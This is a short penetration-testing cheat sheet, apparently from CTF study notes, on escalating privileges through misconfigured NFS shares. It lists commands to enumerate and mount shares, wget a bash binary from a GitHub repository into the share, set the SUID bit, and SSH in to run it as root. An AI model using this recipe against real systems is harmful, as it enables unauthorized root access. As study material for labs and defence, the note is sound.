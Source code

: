 # NFS
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

## Workflow
1. Port scan with nmap
2. Enumerate accessible shares
3. Create a mount point
4. Mount the NFS share to the mount point
5. [Download](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) or make a bash executable (The file must be owned by root)
6. Add the SUID bit and execution permission to the bash executable
7. SSH into the remote host (if SSH private key is found in the share)
8. Run the executable on the remote host

## NFS-Common
NFS-Common includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.

### Listing NFS Shares
showmount -e [IP]  

### Create a mount point
mkdir [MOUNT POINT]

### Mounting NFS shares
sudo mount -t nfs [IP]:[SHARE] [MOUNT POINT] -nolock

- -t : Type of device to mount
- IP : The IP Address of the NFS server
- SHARE	: The name of a share in the remote host
- LOCAL DIR: The local directory to mount a share to
- -nolock	: Specifies not to use NLM locking

### Download or make a bash executable
sudo wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true -O [MOUNT POINT]/bash

### Add the SUID bit and execution permission
cd [MOUNT POINT] && sudo chmod +xs bash

### SSH into the remote host
ssh -i [PRIVATE KEY] [USERNAME]@[HOSTNAME]
